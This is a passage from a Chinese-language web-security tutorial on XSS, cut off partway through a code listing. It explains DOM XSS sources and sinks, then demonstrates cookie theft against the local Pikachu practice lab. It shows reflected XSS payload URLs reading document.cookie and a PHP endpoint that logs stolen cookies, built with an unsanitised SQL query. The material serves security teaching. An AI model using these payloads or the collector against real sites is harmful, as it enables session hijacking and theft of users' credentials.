 网上曾有人整理了一份关于 DOM XSS 的数据污染源（Source，即用户输入数据）和漏洞触发点（Sink）的列表（虽然不够全面，但可以作为参考），如下图所示：  
<Image alt="Drawing 14.png" src="https://s0.lgstatic.com/i/image2/M01/03/7A/Cip5yF_cOp-Acv-zAANwGCdez2k054.png"/>  
图 15：DOM XSS Sources \& Sinks

若数据从 Source 传到 Sink 过程中，未做任何过滤，就有可能存在 DOM XSS。这个思路也常作为动静态检测 DOM XSS 的重要思路，具体会在下一讲中介绍。

### 攻击 XSS 漏洞

这里开始我想给你介绍一些关于 XSS 漏洞利用的方法，避免你停留在 XSS 只能弹框的思想层面。

针对 XSS 漏洞最为常见的两种攻击方式就是窃取 Cookie 劫持他人的会话，以及前面介绍过的蠕虫攻击。因此，这里会重点介绍这两者的相关技术，同时也涉及一些其他的攻击思路，最后会引出一些自动化利用工具的使用。

#### 窃取 Cookie

我们首先来看"窃取 Cookie"。

Cookie 是由服务器提供的存储在客户端的数据，允许 JavaScript 访问，常用于识别用户身份和保存会话等功能。如果 Web 应用程序存在 XSS 漏洞，那么攻击者通过注入恶意 JavaScript 脚本就可以窃取到 Cookie，进而以用户身份执行恶意操作。

通过 document.cookie 就可以访问到 Cookie。以百度网站为例，在检查工具中的 Console 标签页输入 document.cookie 就可以看到当前百度域名下的 Cookie 值。

<Image alt="Drawing 15.png" src="https://s0.lgstatic.com/i/image2/M01/03/7A/Cip5yF_cOpiAMrRcAACz4ZPfiHE961.png"/>  
图 16：百度 Cookie

当一个网站存在 XSS 时，我们就可以通过执行 document.cookie 获取当前受害者的 cookie，前提是要先诱使受害者访问特定的 URL。

以 Pikachu 中的反射型 XSS(Get) 题目为例，其触发链接为：

```java
http://localhost/vul/xss/xss_reflected_get.php?message=<script>alert(1)</script>&submit=submit
```

访问后的效果：

<Image alt="Drawing 16.png" src="https://s0.lgstatic.com/i/image2/M01/03/7A/Cip5yF_cOraARaEHAACAgMxORjM038.png"/>  
图 17：Pikachu 中的反射型 XSS(Get) 利用

我们试试看能否读取 cookie：

```java
http://localhost/vul/xss/xss_reflected_get.php?message=<script>alert(document.cookie)</script>&submit=submit
```

可以访问到 cookie：  
<Image alt="图片10.png" src="https://s0.lgstatic.com/i/image2/M01/04/3F/CgpVE1_r7PeAeYKNAAKRGDzBTuE416.png"/>  
图 18：成功通过 JS 读取 Cookie

接下来，我们就可以在自己控制的服务器写个接收 cookie 的接口，比如 cookie.php。刚好 Pikachu 靶场自带这样的功能，我以它为例，并加了关键代码的注释：

```php
<?php
	include_once '../inc/config.inc.php';
	include_once '../inc/mysql.inc.php';
	$link=connect();  // 连接数据库
	
	//这个是获取 cookie 的 api 页面
	if(isset($_GET['cookie'])){  // 通过 GET 参数 cookie 来接收数据
	    $time=date('Y-m-d g:i:s');
	    $ipaddress=getenv ('REMOTE_ADDR');
	    $cookie=$_GET['cookie'];
	    $referer=$_SERVER['HTTP_REFERER'];
	    $useragent=$_SERVER['HTTP_USER_AGENT'];
	    $query="insert cookies(time,ipaddress,cookie,referer,useragent) 
	    values('$time','$ipaddress','$cookie','$referer','$useragent')";
	    $result=mysqli_query($link, $query); // 将窃取的数据存入数据库
```